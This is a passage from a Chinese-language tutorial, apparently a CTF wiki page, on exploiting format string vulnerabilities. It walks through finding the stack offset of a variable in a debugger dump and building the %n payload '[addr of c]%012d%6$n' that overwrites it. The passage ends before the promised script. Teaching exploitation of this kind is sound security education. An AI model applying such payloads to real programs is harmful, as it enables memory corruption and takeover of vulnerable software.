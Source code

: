 makefile在对应的文件夹中。而无论是覆盖哪个地址的变量，我们基本上都是构造类似如下的payload

```text
...[overwrite addr]....%[overwrite offset]$n
```

其中...表示我们的填充内容，overwrite addr 表示我们所要覆盖的地址，overwrite offset地址表示我们所要覆盖的地址存储的位置为输出函数的格式化字符串的第几个参数。所以一般来说，也是如下步骤

- 确定覆盖地址
- 确定相对偏移
- 进行覆盖

### 覆盖栈内存

#### 确定覆盖地址

首先，我们自然是来想办法知道栈变量c的地址。由于目前几乎上所有的程序都开启了aslr保护，所以栈的地址一直在变，所以我们这里故意输出了c变量的地址。

#### 确定相对偏移

其次，我们来确定一下存储格式化字符串的地址是printf将要输出的第几个参数()。 这里我们通过之前的泄露栈变量数值的方法来进行操作。通过调试

```shell
 → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
   ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret
      0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret
────────────────────────────────────────────────────────────────────────────────────[ stack ]────
['0xffffcd0c', 'l8']
8
0xffffcd0c│+0x00: 0x080484d7  →  <main+76> add esp, 0x10	 ← $esp
0xffffcd10│+0x04: 0xffffcd28  →  "%d%d"
0xffffcd14│+0x08: 0xffffcd8c  →  0x00000315
0xffffcd18│+0x0c: 0x000000c2
0xffffcd1c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
0xffffcd20│+0x14: 0xffffcd4e  →  0xffff0000  →  0x00000000
0xffffcd24│+0x18: 0xffffce4c  →  0xffffd07a  →  "XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat[...]"
0xffffcd28│+0x1c: "%d%d"	 ← $eax
```

我们可以发现在0xffffcd14处存储着变量c的数值。继而，我们再确定格式化字符串'%d%d'的地址0xffffcd28相对于printf函数的格式化字符串参数0xffffcd10的偏移为0x18，即格式化字符串相当于printf函数的第7个参数，相当于格式化字符串的第6个参数。

#### 进行覆盖

这样，第6个参数处的值就是存储变量c的地址，我们便可以利用%n的特征来修改c的值。payload如下

```text
[addr of c]%012d%6$n
```

addr of c 的长度为4，故而我们得再输入12个字符才可以达到16个字符，以便于来修改c的值为16。

具体脚本如下
